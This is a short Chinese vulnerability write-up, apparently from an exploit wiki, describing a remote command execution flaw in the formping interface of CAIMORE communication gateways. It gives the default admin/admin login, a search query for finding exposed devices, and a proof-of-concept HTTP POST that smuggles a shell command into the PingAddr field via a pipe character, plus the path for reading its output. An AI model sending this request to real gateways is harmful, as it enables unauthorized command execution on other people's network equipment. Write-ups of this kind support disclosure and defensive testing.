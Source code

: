 # 才茂通信 网关  formping 远程命令执行漏洞

## 漏洞描述

才茂通信网关  formping 接口存在远程命令执行漏洞，攻击者通过默认口令 admin/admin 登陆系统后通过命令可以获取服务器权限

## 漏洞影响

<a-checkbox checked>才茂通信 网关 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="CAIMORE-Gateway"</a-checkbox></br>

## 漏洞复现

登陆页面，默认口令 admin/admin

![img](/assets/PeiQi-Wiki/img/1681381379945-dee7d6a4-f5ab-477b-988f-73c5b0d53986.png)

验证POC

```plain
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=

PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
```

![img](/assets/PeiQi-Wiki/img/1681386245774-e2311065-b689-435f-b070-7361306ae064.png)



```plain
/pingmessages
```

![img](/assets/PeiQi-Wiki/img/1681386230461-7f63b5d4-1994-4408-b30a-adbd73cc33a4.png)